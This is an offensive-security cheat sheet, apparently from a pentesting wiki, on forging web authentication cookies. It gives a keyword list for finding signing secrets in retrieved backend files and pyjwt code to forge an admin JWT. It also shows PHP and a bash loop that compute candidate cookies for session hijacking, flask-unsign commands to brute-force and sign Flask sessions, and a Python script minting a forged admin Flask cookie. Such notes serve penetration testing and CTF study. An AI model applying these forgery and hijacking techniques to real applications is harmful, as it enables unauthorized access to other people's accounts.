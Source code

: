# Cookies Hacking

## Create a forged cookie

Sometimes we retrieve secrets or files that are responsible for creating the cookie/token to obtain an authenticated session in the web application.

For example, if we manage to get several files that are used in the backend of a web application, we must search by keywords such as:

```
SECRET_KEY,API,API_KEY,KEY,SECRET,JWT,COOKIE,PRIVATE,PUBLIC
```

### JWT

{% hint style="danger" %}
If we need to set a value to the **exp** key, it is probably referring to the **lifetime of the token**. This should generally be in the **Epoch & Unix Timestamp format** (ex: `1639086677`). You can create one at the following link: [https://www.epochconverter.com/](https://www.epochconverter.com) (be sure to create one that lasts at least 1 day).
{% endhint %}

{% tabs %}
{% tab title="With secret" %}
### jwt.io

If we have the key (SECRET\_KEY), we can modify the JWT to our liking. If we do not have it, we can try to "find it" or verify if a signature check is really being done, among other techniques.

![](../../.gitbook/assets/with\_secret\_jwt.png)

### Python

```bash
# Dependencies:
sudo pip3 install pyjwt
# Method:
import jwt
secret = "<SECRET>"
enc_jwt = jwt.encode({'user':'admin','exp':'1744967620'}, secret, algorithm='HS256')
```
{% endtab %}

{% tab title="With public/private keys" %}
### jwt.io

If we have the public key and private key used to sign the JWT, we can also forge a token.

![](../../.gitbook/assets/with\_keys\_jwt.png)
{% endtab %}
{% endtabs %}

Remember to change the algorithm:

![](../../.gitbook/assets/algorithm\_jwt.png)

### Custom (PHP)

In the following case, we managed to retrieve a file that is responsible for generating a cookie:

```php
<?php
function genSess($user){
    $max = strlen($user) - 1;
    $seed = rand(0, $max);
    $key = "custom_password123".$user[$seed]."(!528.\/9890";
    $s_cookie = $user.md5($key);

    return $s_cookie;
}
?>
```

If we obtained this file, we can compute a cookie by adding the following to the PHP code:

```php
print genSess("admin")
```

As in this case the generated cookie is dynamic, we can compute 100 cookies and see if there are repetitions:

{% hint style="danger" %}
If the cookies are repeated many times and the user has a current session in the web application, we can probably hijack the session.
{% endhint %}

```bash
for i in $(seq 1 100); do php asd.php; echo; done | sort -u
```

With the results (the cookies computed), let's test each one and see if it works.

### Flask

Default cookie session name is `session`.

Cookies in Flask use a secret just like JWT. If we know the payload structure of the cookie and we know the SECRET\_KEY, then we can create a forged cookie:

{% tabs %}
{% tab title="flask-unsign" %}
`flask-unsign` is a command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

```bash
# Install:
pip3 install flask-unsign
# Decode Cookie:
flask-unsign -d -c '<COOKIE>'
flask-unsign --decode --cookie '<COOKIE>'
# Brute Force:
flask-unsign --unsign --cookie '<COOKIE>' --wordlist <WORDLIST>
# Signing:
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
# Signing using legacy (old versions):
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

{% embed url="https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce" %}
{% endtab %}

{% tab title="Python" %}
```bash
# Dependencies:
sudo pip3 install waitress
```

{% code title="gen_cookie.py" %}
```python
#!/usr/bin/python3
from flask import Flask, session, request
import requests, threading, time
from waitress import serve

# Flask initiation
app = Flask(__name__)
app.config["SECRET_KEY"] = "<SECRET_KEY>"

@app.route('/')
def main():
    # Cookie format: {'auth' : 'True', 'username' : 'admin'}
    session['auth'] = 'True'
    session['username'] = "admin"
    return 'ok'

thread = threading.Thread(target = lambda: serve(app, host="127.0.0.1", port=9000))
thread.setDaemon(True)
thread.start()

time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```
{% endcode %}

```bash
python3 gen_cookie.py
```
{% endtab %}
{% endtabs %}
